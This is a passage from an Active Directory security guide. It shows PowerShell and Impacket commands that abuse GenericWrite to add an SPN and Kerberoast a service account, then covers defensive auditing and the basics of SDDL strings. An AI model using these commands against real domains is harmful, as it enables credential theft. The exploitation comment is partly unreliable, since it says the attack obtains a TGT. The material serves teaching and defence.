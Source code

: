 - **Misconfiguration**: An attacker has `GenericWrite` access on a computer object.
- **Exploitation**: The attacker can modify the `servicePrincipalName (SPN)` attribute and perform a **Kerberoasting** attack to request a service ticket that can be cracked offline to obtain the password hash of a service account.

**Command for exploitation**:
```powershell
# Modify SPN to include a custom SPN
Set-ADComputer -Identity "target_computer" -Add @{servicePrincipalName="fakeSPN"}

# Perform Kerberoasting attack to obtain TGT
GetUserSPNs.py yourdomain/attacker_user -request
```

### **5. Securing AD Object Permissions**

To prevent exploitation through misconfigurations in AD object permissions:
- **Audit permissions regularly**: Use tools like BloodHound to visualize and analyze AD object permissions and identify risky configurations.
- **Use least privilege principles**: Only grant users and groups the permissions they need and nothing more.
- **Monitor sensitive permissions**: Ensure that sensitive objects, such as Domain Admins, are strictly controlled, and only privileged accounts have access to modify their properties or ACLs.
- **Set up alerts**: Use monitoring tools to detect changes to critical ACLs, password resets, and suspicious group membership modifications.

---

## SDDL 

**Security Descriptor Definition Language (SDDL)** is a language used to define the security descriptors for objects in Windows, including **Active Directory (AD)** objects. It is primarily used to define **Access Control Lists (ACLs)**, which specify who has what type of access to a resource.

In the context of **Active Directory**, SDDL is used to define permissions on objects such as users, groups, organizational units (OUs), and other directory objects. Understanding SDDL is important for managing and auditing permissions within AD environments.

### **Components of SDDL**

An SDDL string has four main components:

1. **Owner (O)**: Defines the owner of the object.
2. **Primary Group (G)**: Defines the primary group for the object.
3. **Discretionary Access Control List (DACL or D)**: Specifies permissions granted or denied to users and groups.
4. **System Access Control List (SACL or S)**: Specifies audit settings for the object.

### **Basic Structure of SDDL**

An SDDL string has the following general format:

```
O:<Owner>G:<Primary Group>D:<DACL>S:<SACL>
```
